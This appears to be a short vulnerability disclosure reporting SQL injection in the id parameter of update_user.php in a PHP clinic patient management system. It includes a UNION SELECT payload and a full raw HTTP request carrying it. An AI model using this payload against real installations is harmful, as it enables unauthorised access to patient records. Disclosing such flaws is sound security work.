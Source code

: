 # Clinic's Patient Management System v1.0 by oretnom23 has SQL injection

BUG_Author：WangWei

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: /pms/update_user.php?id=

Vulnerability location: /pms/update_user.php?id=, id

dbname = pms_db

[+] Payload: /pms/update_user.php?id=-3%20union%20select%201,database(),3--+ // Leak place ---> id

```sql
GET /pms/update_user.php?user_id=-3%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=odknb2obdq1nkaqk7p7u8hvli8
Connection: close
```


![image](https://user-images.githubusercontent.com/54017627/177025053-fbd2f4b6-c60f-4964-b9cb-948b1431b16b.png)
